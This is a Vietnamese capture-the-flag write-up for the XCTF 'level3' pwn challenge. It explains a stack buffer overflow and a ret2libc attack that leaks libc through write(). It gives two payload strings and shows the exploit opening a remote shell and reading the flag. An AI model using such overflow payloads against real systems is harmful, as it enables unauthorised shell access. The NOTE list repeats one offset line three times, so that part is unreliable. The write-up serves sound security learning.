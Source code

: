 # XCTF - PWN Exercise - level3

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ checksec level3   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/5_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Chương trình rất đơn giản, biến `buf` có 136 kí tự nhưng hàm `read` cho phép đọc 256 kí tự input và chương trình cũng không có flag secure `Canary` => có thể stack buffer overflow để lấy shell tương tác trên server. Chúng ta sẽ dùng phương pháp `ret2libc` vì không có functions nào của chương trình cho phép có shell hay là đọc flag trên server.

Những bài sử dụng kỹ thuật `ret2libc` thường sẽ leak địa chỉ của libc bằng hàm `write` hoặc hàm `puts` rồi sau đó tính toán `offset` và địa chỉ của các hàm liên quan đến lấy shell tương tác như: `địa chỉ cơ sở của libc`, `system`, chuỗi `"/bin/sh"`,... do địa chỉ tương đối giữa các hàm trong libc là cố định (khoảng cách giữa các hàm).

Để lấy địa chỉ của hàm `system` của bài này, ta có thể sử dụng hàm `write()` để thực hiện tính toán offset. 

   1. Đầu tiên sử dụng hàm write() để tính địa chỉ thực của hàm `write()` được chương trình lưu trong `GOT` (kiến thức liên quan đến liên kết động thư viện libc của file ELF). 
   
   2. Sử dụng khoảng cách tương đối giữa các hàm để tính địa chỉ thực của `system` và `"/bin/sh"`.

=> Đối với cuộc tấn công đầu tiên, chúng ta sử dụng tràn ngăn xếp để làm rò rỉ địa chỉ thực của hàm write() trong bảng GOT, sau đó trừ đi phần bù trong libc để lấy địa chỉ cơ sở của libc. 

```
payload1 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (write_plt) + p32 (main_addr) + p32 (1) + p32 (write_got) + p32 (0xdeadbeef)
```

=> Cuộc tấn công thứ hai sẽ quay lại functions `main`, vượt qua tràn ngăn xếp một lần nữa và sử dụng chức năng `system` tính toán được để `get shell` :p.

```
payload2 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (sys_addr) + p32 (0xdeadbeef) + p32 (bin_sh_addr)
```

Việc tính toán một số địa chỉ liên quan qua địa chỉ của hàm `write` leak được. Địa chỉ được tính như sau:

|   Địa chỉ các hàm   |          Tính toán                                                     |
|   :-------------:   | :--------------------------------------------------------------------: |
|      libc_addr      | (địa chỉ write lưu tại GOT của write) - (offset của write so với libc) |
|     system_addr     | libc_addr + (offset của system so với libc)                            |
|     bin_sh_addr     | libc_addr + (offset của chuỗi "/bin/sh" so với libc)                   |

###NOTE:
      
      +) (địa chỉ write lưu tại GOT của write) - leak được.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
Phần này mình sẽ trình bày câu lệnh tròng file `exploit.py`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 51341: Done
('Write_got address is', '0xf76e13c0')
('libc address is', '0xf760d000')
('system address is', '0xf7647940')
('/bin/sh address is', '0xf776602b')
[*] Switching to interactive mode
Input:
$ ls
bin
dev
flag
level3
lib
lib32
lib64
$ cat flag
cyberpeace{30760e28dd5d22b93e22a2d89a7113b9}
$  
```
